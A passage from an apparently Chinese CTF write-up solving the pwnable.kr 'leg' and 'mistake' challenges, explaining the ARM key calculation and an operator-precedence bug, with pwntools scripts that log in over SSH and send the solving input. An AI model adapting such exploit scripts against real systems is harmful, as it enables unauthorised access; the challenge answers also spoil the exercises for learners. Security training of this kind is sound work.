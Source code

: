 所以

```
key3=0x00008d80
```

### Exp

```python
#coding=utf-8
from pwn import *

shell=ssh(host='pwnable.kr',user='leg',password='guest',port=2222)

key1=0x00008cdc+0x08
key2=0x00008d04+0x04+0x04
key3=0x00008d80

print(str(key1+key2+key3))
leg=shell.run("sh")
leg.sendline(str(key1+key2+key3))
leg.interactive()
```

### 参考资料

http://blog.chinaunix.net/uid-28458801-id-3792828.html

https://www.cnblogs.com/wrjvszq/p/4199682.html

## 0x09 misktake

看了很久才反应过来是运算符优先级的问题

```c
	if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){//比较运算符优先级高于赋值运算符 fd始终为0 也即stdin
		printf("can't open password %d\n", fd);
		return 0;
	}
```

然后自己构造一组密码就行

比如 0000000000 -xor()-> 1111111111

### Exp

```python
#coding=utf-8
from pwn import *


shell=ssh(host='pwnable.kr',user='mistake',password='guest',port=2222)
#shell.download_file("./mistake.c")
#shell.download_file("./mistake")


io=shell.run('./mistake')
payload="0000000000"
io.sendafter("do not bruteforce...\n",payload)
payload="1111111111"
io.sendafter("input password : ",payload)
io.interactive()
```
